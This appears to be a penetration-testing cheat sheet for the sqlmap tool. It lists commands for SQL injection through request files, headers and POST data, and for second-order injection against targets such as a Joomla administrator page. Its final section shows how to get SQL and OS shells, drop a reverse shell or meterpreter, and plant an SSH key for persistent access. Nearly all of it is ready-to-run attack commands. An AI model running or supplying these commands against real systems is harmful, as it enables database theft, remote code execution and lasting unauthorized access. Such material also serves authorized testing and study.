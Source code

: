 ### Load a request file and use mobile user-agent

```text
sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
```

> * `-r REQUESTFILE`                     Load HTTP request from a file
> * `--safe-url=SAFEURL`             URL address to visit frequently during testing
> * `--mobile`                                  Imitate smartphone through HTTP User-Agent header
> * `--safe-freq=SAFE..`             Regular requests between visits to a safe URL

### Custom injection in UserAgent/Header/Referer/Cookie

```text
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
```

> * `-u URL, --url=URL`                   Target URL \(e.g. "http://www.site.com/vuln.php?id=1"\)
> * `--data=DATA`                                Data string to be sent through POST \(e.g. "id=1"\)
> * `--headers=HEADERS`                    Extra headers \(e.g. "Accept-Language: fr\nETag: 123"\)
> * The injection is located at the '\*'

### Second-order attack

Options: `--second-url` and `--second-req`

Second-order SQL injection attack is an attack where result\(s\) of an injected payload in one vulnerable page is shown \(reflected\) at the other \(e.g. frame\). Usually that's happening because of database storage of user provided input at the original vulnerable page.

You can manually tell sqlmap to test for this type of SQL injection by using option `--second-order` with the URL address or `--second-req` with request file for sending to the server where results are being shown.

```text
sqlmap -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3

sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

### Shell

```text
SQL Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

Simple Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn

SSH Shell by dropping an SSH key
python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
```
